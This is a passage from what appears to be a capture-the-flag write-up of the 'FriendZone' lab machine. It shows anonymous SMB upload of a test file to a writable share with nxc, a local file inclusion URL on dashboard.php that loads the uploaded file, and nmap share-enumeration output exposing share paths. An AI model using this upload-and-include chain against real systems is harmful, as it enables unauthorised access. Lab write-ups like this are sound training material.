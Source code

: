 If Files is in /etc/Files, maybe Development is in /etc/Development. Let’s write a test file in Development and see if we can read it; remember the site appends a .php at the end of the file:

```bash
nxc smb 10.10.10.123 -u '' -p '' --share Development --put-file test.txt test.php

SMB         10.10.10.123    445    FRIENDZONE       [*] Unix - Samba (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True) 
SMB         10.10.10.123    445    FRIENDZONE       [+] \: (Guest)
SMB         10.10.10.123    445    FRIENDZONE       [*] Copying test.txt to test.php
SMB         10.10.10.123    445    FRIENDZONE       [+] Created file test.txt on \\Development\test.php

```

Now let’s try to read it:

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/test
```

![image.png]({{ site.baseurl }}/assets/friendzone/image%2013.png)

Another way to find out the full path of Development is using nmap script:

```bash
sudo nmap --script smb-enum-shares.nse 10.10.10.123

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.10.123\Development:
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files:
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general:
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
```